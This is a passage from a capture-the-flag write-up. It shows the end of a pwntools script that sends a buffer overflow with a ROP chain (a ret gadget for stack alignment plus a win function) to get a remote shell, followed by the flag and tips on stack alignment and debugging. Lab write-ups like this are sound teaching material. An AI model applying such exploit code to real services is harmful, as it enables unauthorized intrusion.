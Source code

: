 ```python
# 3. ROP Chain
# - "ret" gadget to fix stack alignment
# - Address of the win function
rop_chain = p64(ret_gadget) + p64(elf.symbols["win"])

# Combine all parts
payload = prefix + padding + rop_chain

# Send the payload
p.sendline(payload)

# Switch to interactive mode to control the shell
p.interactive()

```

**Result (Flag)**

After running the script, we get a shell on the remote server. By using `ls -la` and `cat flag.txt`, we can retrieve the flag.

`sun{It4chI_b3ats_0b!to_nO_d!ff}`

---

## Postmortem / Tips

- The stack alignment issue is a common trap in 64-bit pwnable challenges. When a simple ROP chain fails on remote despite working locally, this should be one of the first potential causes to investigate.
- Always analyze the program's logic flow carefully. Overlooking the `strcmp` condition would initially lead to the program calling `exit()`, thwarting all exploit attempts.
- Using `pwntools` and GDB is an extremely powerful combination for efficiently debugging and developing exploit payloads.
